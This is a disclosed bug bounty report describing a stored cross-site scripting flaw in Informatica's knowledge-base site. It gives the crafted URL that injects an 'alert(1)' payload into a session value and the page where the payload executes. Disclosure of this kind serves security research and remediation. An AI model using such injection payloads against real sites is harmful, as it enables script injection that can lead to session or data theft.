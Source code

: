 # [kb.informatica.com] Stored XSS

## Report Details
- **Report ID**: 170369
- **URL**: https://hackerone.com/reports/170369
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-09-19T09:07:25.925Z
- **Disclosed**: 2017-04-09T12:22:44.923Z

## Reporter
- **Username**: albinowax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
kb.informatica.org is vulnerable to stored XSS as it stores user input in users' sessions, then reflects this input back inside a JavaScript block without adequate escaping.

To replicate this issue, first store the payload in your session by visiting: https://kb.informatica.com/kbexternal/Pages/KBSearchResults.aspx?k=Support%20Console&fromsource=11171"%3balert(1)%2f%2f535

Then visit https://kb.informatica.com/faq/1/Pages/17033.aspx?docid=17033&type=external&isSearch=external

This should trigger an alert, due to the following HTML in the second response: 
<script type="text/javascript">
//<![CDATA[
var isExternal = true; var varSearchResultURL = "http://kb.informatica.com:7001/kbexternal/Pages/KBSearchResults.aspx?k=Support Console&fromsource=11171";alert(1)//535";

Replicating this may take a few attempts - it's a bit flaky. I used Firefox but it ought to work in any browser. Let me know if you have trouble.

## Attachments
No attachments
